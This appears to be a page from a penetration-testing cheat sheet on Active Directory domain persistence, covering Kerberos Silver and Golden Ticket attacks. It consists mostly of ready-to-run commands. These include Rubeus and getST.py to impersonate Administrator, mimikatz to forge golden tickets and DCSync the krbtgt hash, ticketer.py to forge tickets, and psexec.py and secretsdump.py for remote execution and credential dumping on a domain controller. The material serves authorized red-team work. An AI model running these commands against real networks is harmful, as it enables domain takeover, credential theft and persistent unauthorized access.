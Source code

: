# Dominance




## Silver Ticket

- [https://en.hackndo.com/kerberos-silver-golden-tickets/#silver-ticket](https://en.hackndo.com/kerberos-silver-golden-tickets/#silver-ticket)

{% embed url="https://youtu.be/_nJ-b1UFDVM" %}

{% tabs %}
{% tab title="Windows" %}
```
Cmd > Rubeus.exe s4u /domain:megacorp.local /dc:dc1.megacorp.local /user:SRV01$ /rc4:fc525c9683e8fe067095ba2ddc971889 /altservice:http/srv01.megacorp.local /impersonateuser:Administrator /self /ptt
```
{% endtab %}
{% tab title="Linux" %}
```
$ getST.py megacorp.local/'SRV01$' -hashes :fc525c9683e8fe067095ba2ddc971889 -dc-ip 192.168.1.11 -spn ldap/srv01.megacorp.local -impersonate 'Administrator'
```
{% endtab %}
{% endtabs %}




## Golden Ticket

- [https://en.hackndo.com/kerberos-silver-golden-tickets/#golden-ticket](https://en.hackndo.com/kerberos-silver-golden-tickets/#golden-ticket)
- [https://artkond.com/2016/12/18/pivoting-kerberos/](https://artkond.com/2016/12/18/pivoting-kerberos/)

{% embed url="https://youtu.be/o98_eRt777Y" %}

{% tabs %}
{% tab title="Windows" %}
```
Cmd > .\mimikatz.exe "kerberos::golden /domain:megacorp.local /user:snovvcrash /sid:<SID> /krbtgt:<NTHASH> /ptt [/startoffset:-10 /endin:60 /renewmax:10080]" "exit"
Cmd > .\mimikatz.exe "lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local" "exit"
```
{% endtab %}
{% tab title="Linux" %}
```
$ ticketer.py -domain megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 {-nthash <RC4_32> | -aesKey <AES_64> } [-groups '512,513,516,518,519,520'] [-user-id 1337] [-duration 3650] snovvcrash
$ export KRB5CCNAME=`readlink -f snovvcrash.ccache`
$ psexec.py megacorp.local/snovvcrash@DC01.megacorp.local -k -no-pass
$ secretsdump.py megacorp.local/snovvcrash@DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```
{% endtab %}
{% endtabs %}
